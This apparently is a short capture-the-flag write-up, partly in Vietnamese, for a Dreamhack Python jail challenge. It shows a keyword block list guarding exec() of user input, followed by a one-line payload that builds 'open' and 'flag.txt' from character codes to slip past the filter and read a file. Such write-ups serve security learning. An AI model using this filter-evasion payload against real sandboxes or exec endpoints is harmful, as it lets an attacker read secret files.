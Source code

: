# Decription

![https://dreamhack.io/wargame/challenges/2068](images/2025-07-30_01-30.png)

## Source
```c
import sys # What's wrong with you, Rootsquare?

def filter_code(user_input): # You cannot use those words.
    banned_word=['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'sh', 'break', 'mro', 'cat', 'flag']
    for i in range(0,len(banned_word),1):
        x=banned_word[i]
        if x in user_input:
            return False
    return True

print("Welcome to Python Challenge! Input your code and capture the flag!")
code=input('Input code > ') # Please input your code.
result=filter_code(code) # Check if you used banned word.

if result==True: # If you follow my rule, then I execute your code.
    try:
        exec(code) # (*) Search what does 'exec' means!
    except:
        pass
else:
    print('Your input is blocked.')
```

### Problem

```c
Ta thấy rằng mục đích của chương trình này là chặn các đoạn code nhạy cảm trong banned_word.

open/read/write/system/flag đều bị chặn. Ta không thể trực tiếp gọi các hàm đó để đọc flag được.

Nhưng để ý rằng hàm filter_code chỉ check những từ trong banned_word. Ta có thể nhập theo kiểu ascii/oct/hex để thực hiện yêu cầu mở flag và in ra ngoài.
```
#### Solve
    
SỬ dụng python để tiến hành thwucj thi open, read, write flag

```c
print(getattr(getattr(__builtins__, ''.join(map(chr,[111,112,101,110])))(''.join(map(chr,[102,108,97,103,46,116,120,116]))), ''.join(map(chr,[114,101,97,100])))())
```
![](images/flag.png)
